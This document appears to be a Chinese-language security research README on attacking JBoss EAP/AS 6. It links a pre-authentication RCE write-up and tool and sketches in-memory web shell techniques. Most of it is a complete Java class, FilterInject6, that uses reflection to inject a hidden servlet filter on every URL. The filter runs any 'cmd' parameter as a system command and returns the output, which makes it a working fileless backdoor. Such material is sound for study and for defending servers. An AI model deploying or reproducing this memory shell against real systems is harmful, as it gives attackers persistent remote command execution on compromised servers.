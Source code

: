 相关漏洞
---

### JBoss EAP/AS <= 6.* Pre-Auth RCE

- https://jspin.re/jboss-eap-as-6-rce-a-little-bit-beyond-xac-xed/
- https://github.com/jespinhara/j-is-the-boss

测试效果：

![image](https://user-images.githubusercontent.com/55024146/165736580-d0d13aae-84a5-4812-8e51-267ab0a78949.png)


利用研究
---

### 回显

- https://www.jianshu.com/p/d142294a9466

### 内存马

#### 意外发现-内嵌Tomcat

![image-20211230142240042](readme.assets/image-20211230142240042.png)



![image-20211230142344888](readme.assets/image-20211230142344888.png)



都是熟悉的面孔

![image-20211230142523946](readme.assets/image-20211230142523946.png)



#### Filter

测试版本：JBoss AS v6.1.0.Final

FilterInject6.java

```java
import org.apache.catalina.Context;
import org.apache.catalina.core.ApplicationContext;
import org.apache.catalina.core.ApplicationFilterConfig;
import org.apache.catalina.core.StandardContext;
import org.apache.catalina.deploy.FilterDef;
import org.apache.catalina.deploy.FilterMap;
import javax.servlet.*;
import javax.servlet.http.HttpServlet;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import java.io.IOException;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationTargetException;
import java.util.Map;

public class FilterInject6 extends HttpServlet {
    static public class myfilter implements Filter {
        @Override
        public void init(FilterConfig filterConfig) throws ServletException {
        }
        @Override
        public void doFilter(ServletRequest servletRequest, ServletResponse servletResponse, FilterChain filterChain) throws IOException, ServletException {
            String cmd;
            if ((cmd = servletRequest.getParameter("cmd")) != null) {
                Process process = Runtime.getRuntime().exec(cmd);
                java.io.BufferedReader bufferedReader = new java.io.BufferedReader(
                        new java.io.InputStreamReader(process.getInputStream())
                );
                StringBuilder stringBuilder = new StringBuilder();
                String line;
                while ((line = bufferedReader.readLine()) != null) {
                    stringBuilder.append(line + '\n');
                }
                servletResponse.getOutputStream().write(stringBuilder.toString().getBytes());
                servletResponse.getOutputStream().flush();
                servletResponse.getOutputStream().close();
                return;
            }
            filterChain.doFilter(servletRequest, servletResponse);
        }
        @Override
        public void destroy() {

        }

    }

    @Override
    protected void doGet(HttpServletRequest req, HttpServletResponse resp) throws IOException {
        try {
            final String name = "filterDemo";
            ServletContext servletContext = req.getSession().getServletContext();
            Field appctx = servletContext.getClass().getDeclaredField("context");
            appctx.setAccessible(true);
            ApplicationContext applicationContext = (ApplicationContext) appctx.get(servletContext);
            Field stdctx = applicationContext.getClass().getDeclaredField("context");
            stdctx.setAccessible(true);
            StandardContext standardContext = (StandardContext) stdctx.get(applicationContext);
            Field Configs = standardContext.getClass().getDeclaredField("filterConfigs");
            Configs.setAccessible(true);
            Map filterConfigs = (Map) Configs.get(standardContext);
            Filter evilFilter = new myfilter();
            FilterDef filterDef = new FilterDef();
            filterDef.setFilterName(name);
            filterDef.setFilterClass(evilFilter.getClass().getName());
            standardContext.addFilterDef(filterDef);
            FilterMap filterMap = new FilterMap();
            filterMap.addURLPattern("/*");
            filterMap.setFilterName(name);
            filterMap.setDispatcher(DispatcherType.REQUEST.name());
            standardContext.addFilterMapBefore(filterMap);
            Constructor constructor = ApplicationFilterConfig.class.getDeclaredConstructor(Context.class, FilterDef.class);
            constructor.setAccessible(true);
            ApplicationFilterConfig filterConfig = (ApplicationFilterConfig) constructor.newInstance(standardContext, filterDef);
            filterConfigs.put(name, filterConfig);
            resp.getWriter().write("inject success");
        } catch (NoSuchFieldException | NoSuchMethodException | IllegalAccessException | InstantiationException | InvocationTargetException e) {
            e.printStackTrace();
        }
    }
}
```



![image-20211230142904408](readme.assets/image-20211230142904408.png)
